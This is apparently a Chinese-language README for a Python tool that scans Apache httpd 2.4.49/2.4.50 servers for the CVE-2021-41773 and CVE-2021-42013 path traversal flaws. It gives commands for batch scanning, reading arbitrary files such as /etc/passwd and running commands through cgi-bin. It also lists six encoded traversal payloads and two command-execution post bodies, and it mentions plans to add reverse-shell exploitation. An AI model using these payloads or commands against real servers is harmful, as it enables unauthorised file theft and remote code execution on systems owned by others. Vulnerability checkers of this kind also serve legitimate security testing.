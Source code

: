 # apache httpd path traversal checker


## 0x00 概述

20211005，网上曝出apache httpd 2.4.49的目录穿越漏洞（cve-2021-41773），可造成任意文件读取（穿越的目录允许被访问，比如配置了<Directory />Require all granted</Directory> 默认不允许）或命令执行（rce需开启cgi，默认并不包含cgi模块）

20211008，又出了2.4.50的目录穿越（cve-2021-42013），是绕过了cve-2021-41773的修复。

漏洞详情参考：[apache httpd 2.4.49/2.4.50 目录穿越漏洞重现及分析](https://www.lsablog.com/networksec/penetration/apache-httpd-path-traversal-analysis/) 



## 0x01 快速开始

python3运行

使用帮助：python3 apache-httpd-path-traversal.py -h

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-00.png)


单url检测：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80"

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-01.png)

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-02.png)


批量检测：python3 apache-httpd-path-traversal.py -f urls.txt -t 30 -s 3

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-03.png)


文件读取：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /icons --readfile

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-04.png)


命令执行：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /cgi-bin --rce

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-05.png)



## 0x02 工具简介

使用urllib.request发http数据包

检测漏洞存在的依据是读取/etc/passwd判断返回数据是否含有”root:”字符串（因为大部分都是linux，所以暂时忽略检测windows）

多线程，可选择超时时间，以提高效率。

可选公共目录，rce的shell，以提供灵活性。

采用可能的公共目录列表，提高命中率。
commonDirList = ['/cgi-bin', '/icons', '/assets', '/uploads', '/img', '/image']

注意：有时候文件读取是利用icons目录，而rce要用cgi-bin目录，具体情况具体分析。

采用7种poc和2种rce的post data格式：

#cve-2021-41773
poc0 = "/.%2e/%2e%2e/%2e%2e/%2e%2e"

poc1 = "/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e"


#cve-2021-42013
poc2 = "/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65"

poc3 = "/.%%32%65/.%%32%65/.%%32%65/.%%32%65"

poc4 = "/.%%32e/.%%32e/.%%32e/.%%32e"

poc5 = "/.%2%65/.%2%65/.%2%65/.%2%65"

#rce data
rce0 = "echo;id"

rce1 = "echo Content-Type: text/plain; echo; id"

//rce的post方法改为get方法好像也行。

//payload要根据目标的apache路径层数变化跳出，一般4层够了。

//要有一个apache存在的目录，比如icons/或cgi-bin/



## 0x03 TODO

1.可能会增加对windows系统的检测。

2.可能会增加反弹shell等进一步利用。



## 0x04 反馈

[issus](https://github.com/theLSA/apache-httpd-path-traversal-checker/issues)

gmail：[lsasguge196@gmail.com](mailto:lsasguge196@gmail.com)

qq：[2894400469@qq.com](mailto:2894400469@qq.com)